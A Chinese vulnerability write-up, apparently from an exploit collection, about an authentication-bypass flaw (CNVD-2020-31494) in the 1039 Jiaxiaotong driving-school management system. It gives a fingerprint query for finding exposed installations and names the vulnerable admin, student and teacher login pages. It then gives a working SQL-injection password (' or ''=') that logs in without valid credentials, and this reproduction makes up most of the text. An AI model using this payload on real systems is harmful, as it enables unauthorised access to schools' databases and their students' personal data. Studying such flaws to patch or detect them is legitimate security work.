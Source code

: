 # 

# 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

```
1039家校通 v1.0 - v6.0
```

## 网络测绘

```
title="学员登录_1039家校通"
```

## 漏洞复现

管理员登录接口为

```plain
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```



![](./images/202202101936922.png)



账号密码为如下即可登录

```plain
user:peiqi
pass:' or ''='
```



![](./images/202202101936366.png)
